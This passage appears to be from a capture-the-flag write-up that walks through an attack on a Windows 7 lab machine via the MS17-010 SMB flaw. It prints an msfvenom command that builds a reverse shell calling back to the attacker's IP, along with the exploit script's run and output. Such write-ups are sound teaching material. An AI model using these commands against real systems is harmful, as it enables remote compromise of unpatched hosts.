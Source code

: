 It’s very similar to what’s going on in the original, but it’s updated to upload `lfile` to `C:\filename` and then run it.

You can either modify `zzz_exploit.py`, use `send_and_execute.py`, or make your own script using the functions from that repo.

#### Cred Update

Just like with `smbmap` above, when I try to run this with username as an empty string, it won’t auth. However, if I just add any string into the username, it will then work.

When I was doing OSCP (2.5 years ago now), there were many boxes that would fall to this script with blank creds. I believe it should act similar to what you see with `smbmap`. But just like there, it’s always better to try both with and without bad creds if you aren’t sure (and of course if you have good creds, then use those!).

#### Shell

I’ll generate a payload with `msfvenom`:

```

oxdf@parrot$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 -f exe -o rev.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: rev.exe

```

While x64 is relatively universal for Windows systems today, in 2017 when this box was released, x86 was much more common, especially in Windows 7.

`shell_reverse_tcp` is a raw command shell (non-meterpreter), and it is not staged (which is to say the entire payload is in that one exe, instead of just a stub that will connect back and get the rest). With both of those, I can just catch the shell with `nc`. If I wanted a staged payload, I would have done `shell/reverse_tcp`.

With the username updated to “0xdf”, I’ll start `nc`, and run `send_and_execute.py`:

```

(impacket-venv) oxdf@parrot$ python send_and_execute.py 10.10.10.40 rev.exe 
Trying to connect to 10.10.10.40:445
Target OS: Windows 7 Professional 7601 Service Pack 1
Using named pipe: browser
Target is 64 bit
Got frag size: 0x10
GROOM_POOL_SIZE: 0x5030
BRIDE_TRANS_SIZE: 0xfa0
CONNECTION: 0xfffffa8001c3d8f0
SESSION: 0xfffff8a0019ee2a0
FLINK: 0xfffff8a00264f048
InParam: 0xfffff8a00283a15c
MID: 0xd07
unexpected alignment, diff: 0x-1ebfb8
leak failed... try again
CONNECTION: 0xfffffa8001c3d8f0
SESSION: 0xfffff8a0019ee2a0
FLINK: 0xfffff8a002850088
InParam: 0xfffff8a00284a15c
MID: 0xe03
success controlling groom transaction
modify trans1 struct for arbitrary read/write
make this SMB session to be SYSTEM
overwriting session security context
```
